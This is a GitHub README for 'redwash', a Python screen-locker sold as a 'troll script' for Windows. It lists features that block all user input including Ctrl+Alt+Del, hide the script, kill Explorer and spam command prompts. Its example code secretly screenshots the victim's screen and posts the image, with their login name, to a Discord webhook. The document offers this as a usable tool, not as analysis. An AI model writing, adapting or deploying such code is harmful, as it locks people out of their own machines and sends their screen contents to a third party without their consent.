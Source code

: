 # redwash
Created in December 2021 -- Last Modified 12/15/2021

A Python (for Windows) troll script that locks the user's computer and jumpscares them. Does not require UAC.

Has various optional features:
* Hide itself when run
* Block user input (including Ctrl+Alt+Del)
* Minimize all other running applications
* Spam open command prompts
* Kill Windows Explorer
* Execute other code during runtime (upload screenshot etc.)

![image](redwashed_pc.png)

## Example Usage
```python
""" redwash code implementation goes here... """

def otherCode():
    # This is an example of some code you can execute in the background when redwash is running.
    # In this example, we take a screenshot of the user's computer and upload it to a discord webhook.

    # Take a screenshot of the PC
    screenshot = ImageGrab.grab()
    buffered = BytesIO()
    screenshot.save(buffered, format="PNG")

    # Your Discord webhook URL
    webhook_url = 'your_webhook_url'

    # Prepare the payload
    files = {'file': ('screenshot.png', buffered.getvalue(), 'image/png')}
    data = {'payload_json': dumps({"content": getlogin() + " just executed the script!", "username": "redwash", "avatar_url": "https://cdn.discordapp.com/attachments/1193058123733282998/1193058403862454282/terxture.png?ex=65ab5539&is=6598e039&hm=05040b88e1d2b6500f983e13bfd262ffee851d8c973d5ff4eb1e8016ea396e6a&"})}

    # POST request to the Discord webhook
    res = post(webhook_url, files=files, data=data)

if __name__ == "__main__":
    redwash(True, True, True, True, True, False, otherCode)
```

